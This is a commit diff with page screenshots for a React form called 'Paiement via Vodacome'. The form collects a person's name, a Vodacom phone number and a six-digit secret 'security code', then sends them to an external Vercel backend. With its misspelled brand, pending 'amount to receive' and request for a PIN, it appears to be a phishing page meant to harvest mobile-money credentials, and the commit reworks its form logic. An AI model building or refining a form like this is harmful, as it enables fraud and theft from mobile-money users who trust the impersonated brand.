

Before and after one commit to RN237/validation-paiement, a React (Create React App) app: page /vodacome in a window 1280 px wide. Shown: the top 752 px of the page, without its empty margins (319-959 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update Vodacome.jsx

```diff
--- a/src/vodacome/Vodacome.jsx
+++ b/src/vodacome/Vodacome.jsx
@@ -1,228 +1,109 @@
 import React, { useState } from "react";
 import axios from "axios";
-import toast from "react-hot-toast";
 
 export default function Vodacome() {
   const [fullname, setFullname] = useState("");
   const [numero, setNumero] = useState("");
-  const [devise, setDevise] = useState("FCFA");
-  const [montant, setMontant] = useState("en cours d'examen");
   const [code, setCode] = useState("");
   const [loading, setLoading] = useState(false);
-  const [errors, setErrors] = useState({});
+  const [message, setMessage] = useState("");
 
-  const handleCodeChange = (e) => {
-    const value = e.target.value;
-    if (/^\d{0,6}$/.test(value)) {
-      setCode(value);
-      setErrors((prev) => ({ ...prev, code: "" }));
+  const validate = () => {
+    if (!fullname.trim()) {
+      setMessage("Nom et Prénom est requis");
+      return false;
     }
+    if (!/^\d+$/.test(numero)) {
+      setMessage("Numéro Vodacome doit contenir uniquement des chiffres");
+      return false;
+    }
+    if (code.length !== 6 || !/^\d{6}$/.test(code)) {
+      setMessage("Code de sécurité doit contenir exactement 6 chiffres");
+      return false;
+    }
+    setMessage("");
+    return true;
   };
 
-  const validateForm = () => {
-    let errors = {};
-    if (fullname.trim() === "") errors.fullname = "Nom et Prénom est requis";
+  const handleSubmit = async (e) => {
+    e.preventDefault();
+    if (!validate()) return;
 
-    if (numero.trim() === "") {
-      errors.numero = "Numéro Vodacome est requis";
-    } else if (!/^\d+$/.test(numero)) {
-      errors.numero = "Le numéro Vodacome doit contenir uniquement des chiffres";
-    }
-
-    if (code.length !== 6) {
-      errors.code = "Le code de sécurité doit contenir exactement 6 chiffres";
-    }
-
-    return errors;
-  };
-
-  const submitForm = async (e) => {
-    e.preventDefault();
-    const formErrors = validateForm();
-    if (Object.keys(formErrors).length > 0) {
-      setErrors(formErrors);
-      toast.error("Veuillez remplir tous les champs obligatoires correctement.", {
-        position: "top-right",
-      });
-      return;
-    }
-
-    const paiements = {
+    const data = {
       fullname,
       numero,
-      devise,
-      montant,
+      devise: "FCFA",
+      montant: "en cours d'examen",
       code,
     };
 
     try {
       setLoading(true);
-      const response = await axios.post(
+      const res = await axios.post(
         "https://backend-paiement.vercel.app/api/paiements",
-        paiements
+        data,
+        {
+          headers: {
+            "Content-Type": "application/json",
+          },
+        }
       );
-      toast.success(response.data.message || "Données envoyées avec succès", {
-        position: "top-right",
-      });
-      // Reset champs après succès
+      setMessage(res.data.message || "Données envoyées avec succès !");
       setFullname("");
       setNumero("");
       setCode("");
-    } catch (error) {
-      // Affiche l’erreur retournée par l’API si existante, sinon message générique
-      const message =
-        error.response?.data?.message || "Erreur d’envoi des données.";
-      toast.error(message, { position: "top-right" });
-      console.error("Erreur API:", error.response || error.message);
+    } catch (err) {
+      console.error("Erreur API:", err.response || err.message);
+      setMessage(
+        err.response?.data?.message ||
+          "Erreur lors de l’envoi des données, veuillez réessayer."
+      );
     } finally {
       setLoading(false);
     }
   };
 
   return (
-    <div className="flex items-center justify-center min-h-screen bg-blue-400">
-      <div className="bg-white p-8 rounded-lg shadow-lg max-w-md w-full">
-        <h1 className="text-2xl font-bold text-center text-blue-500 mb-6">
-          Paiement via Vodacome
-        </h1>
-        <form className="space-y-4" onSubmit={submitForm}>
+    <div style={{ maxWidth: 400, margin: "auto", padding: 20 }}>
+      <h2>Formulaire Paiement Vodacome</h2>
+      <form onSubmit={handleSubmit}>
         <div>
-            <label className="block text-sm font-medium text-gray-700">
-              Nom et Prénom
-            </label>
+          <label>Nom et Prénom</label>
           <input
             type="text"
-              id="fullname"
-              name="fullname"
             value={fullname}
-              onChange={(e) => {
-                setFullname(e.target.value);
-                setErrors((prev) => ({ ...prev, fullname: "" }));
-              }}
+            onChange={(e) => setFullname(e.target.value)}
             placeholder="Nom et Prénom"
-              autoComplete="off"
-              className={`mt-1 block w-full px-3 py-2 border rounded-md shadow-sm focus:outline-none focus:ring-orange-500 ${
-                errors.fullname
-                  ? "border-red-500"
-                  : "border-gray-300 focus:border-orange-500"
-              }`}
           />
-            {errors.fullname && (
-              <p className="text-red-500 text-sm mt-1">{errors.fullname}</p>
-            )}
         </div>
-
         <div>
-            <label className="block text-sm font-medium text-gray-700">
-              Numéro Vodacome
-            </label>
+          <label>Numéro Vodacome</label>
           <input
             type="text"
-              id="numero"
-              name="numero"
             value={numero}
             onChange={(e) => {
-                const value = e.target.value;
-                if (/^\d*$/.test(value)) {
-                  setNumero(value);
-                  setErrors((prev) => ({ ...prev, numero: "" }));
-                }
+              if (/^\d*$/.test(e.target.value)) setNumero(e.target.value);
             }}
-              autoComplete="off"
-              placeholder="Numéro"
-              className={`mt-1 block w-full px-3 py-2 border rounded-md shadow-sm focus:outline-none focus:ring-orange-500 ${
-                errors.numero ? "border-red-500" : "border-gray-300 focus:border-orange-500"
-              }`}
+            placeholder="Numéro (chiffres uniquement)"
           />
-            {errors.numero && (
-              <p className="text-red-500 text-sm mt-1">{errors.numero}</p>
-            )}
-          </div>
-
-          <div>
-            <label className="block text-sm font-medium text-gray-700">
-              Devise
-            </label>
-            <select
-              id="devise"
-              name="devise"
-              value={devise}
-              onChange={(e) => setDevise(e.target.value)}
-              className="mt-1 block w-full px-3 py-2 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-orange-500 focus:border-orange-500"
-            >
-              <option value="FCFA">FCFA</option>
-            </select>
         </div>
         <div>
-            <label className="block text-sm font-medium text-gray-700">
-              Montant à recevoir
-            </label>
+          <label>Code de sécurité (6 chiffres)</label>
           <input
-              type="text"
-              id="montant"
-              name="montant"
-              value={montant}
-              disabled
-              onChange={(e) => setMontant(e.target.value)}
-              autoComplete="off"
-              placeholder="Montant"
-              className="mt-1 block w-full px-3 py-2 border border-gray-300 rounded-md shadow-sm focus:outline-none focus:ring-orange-500 focus:border-orange-500"
+            type="password"
+            maxLength={6}
+            value={code}
+            onChange={(e) => {
+              if (/^\d*$/.test(e.target.value)) setCode(e.target.value);
+            }}
+            placeholder="Ex: 123456"
           />
         </div>
-
-          <div>
-            <label className="block text-sm font-medium text-gray-700">
-              Code de sécurité
-            </label>
-            <input
-              type="password"
-              id="code"
-              name="code"
-              value={code}
-              maxLength={6}
-              onChange={handleCodeChange}
-              autoComplete="off"
-              placeholder="Ex: 123456"
-              className={`mt-1 block w-full px-3 py-2 border rounded-md shadow-sm focus:outline-none focus:ring-orange-500 ${
-                errors.code ? "border-red-500" : "border-gray-300 focus:border-orange-500"
-              }`}
-            />
-            {errors.code && (
-              <p className="text-red-500 text-sm mt-1">{errors.code}</p>
-            )}
-          </div>
-
-          <button
-            type="submit"
-            className="w-full py-2 text-white bg-blue-500 flex items-center justify-center rounded hover:bg-blue-600"
-            disabled={loading}
-          >
-            {loading ? (
-              <div role="status">
-                <svg
-                  aria-hidden="true"
-                  className="w-8 h-8 text-gray-200 animate-spin dark:text-gray-600 fill-blue-600"
-                  viewBox="0 0 100 101"
-                  fill="none"
-                  xmlns="http://www.w3.org/2000/svg"
-                >
-                  <path
-                    d="M100 50.5908C100 78.2051 77.6142 100.591 50 100.591C22.3858 100.591 0 78.2051 0 50.5908C0 22.9766 22.3858 0.59082 50 0.59082C77.6142 0.59082 100 22.9766 100 50.5908ZM9.08144 50.5908C9.08144 73.1895 27.4013 91.5094 50 91.5094C72.5987 91.5094 90.9186 73.1895 90.9186 50.5908C90.9186 27.9921 72.5987 9.67226 50 9.67226C27.4013 9.67226 9.08144 27.9921 9.08144 50.5908Z"
-                    fill="currentColor"
-                  />
-                  <path
-                    d="M93.9676 39.0409C96.393 38.4038 97.8624 35.9116 97.0079 33.5539C95.2932 28.8227 92.871 24.3692 89.8167 20.348C85.8452 15.1192 80.8826 10.7238 75.2124 7.41289C69.5422 4.10194 63.2754 1.94025 56.7698 1.05124C51.7666 0.367541 46.6976 0.446843 41.7345 1.27873C39.2613 1.69328 37.813 4.19778 38.4501 6.62326C39.0873 9.04874 41.5694 10.4717 44.0505 10.1071C47.8511 9.54855 51.7191 9.52689 55.5402 10.0491C60.8642 10.7766 65.9928 12.5457 70.6331 15.2552C75.2735 17.9648 79.3347 21.5619 82.5849 25.841C84.9175 28.9121 86.7997 32.2913 88.1811 35.8758C89.083 38.2158 91.5421 39.6781 93.9676 39.0409Z"
-                    fill="currentFill"
-                  />
-                </svg>
-                <span className="sr-only">Loading...</span>
-              </div>
-            ) : (
-              "Recevoir"
-            )}
+        <button type="submit" disabled={loading}>
+          {loading ? "Envoi..." : "Envoyer"}
         </button>
       </form>
-      </div>
+      {message && <p style={{ marginTop: 10 }}>{message}</p>}
     </div>
   );
 }
```
Lines whose indentation alone changed are shown as unchanged.
